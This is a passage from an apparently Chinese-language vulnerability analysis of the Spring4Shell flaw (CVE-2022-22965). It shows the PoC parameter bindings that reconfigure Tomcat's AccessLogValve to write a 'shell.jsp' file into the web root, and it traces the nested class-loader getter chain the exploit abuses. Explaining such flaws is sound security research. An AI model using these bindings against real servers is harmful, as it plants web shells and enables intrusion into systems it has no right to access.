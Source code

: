 ```text
# 设置文件后缀为 .jsp
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp

# 设置文件前缀为 shell
class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell

# 设置日志文件的路径为 webapp/path，只有该文件下的 jsp 文件会被解析，本文以 ROOT 为例
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapp/ROOT

```


可以看到其poc也是通过参数绑定修改了对应的变量值，而且是SpringMVC 多层嵌套参数绑定


从poc可以推断其绑定过程为：


```java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()

```


这里就不展开调式了，调式过程可以看这篇文章：[Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877)


直接看下AccessLogValve这个类中的属性。

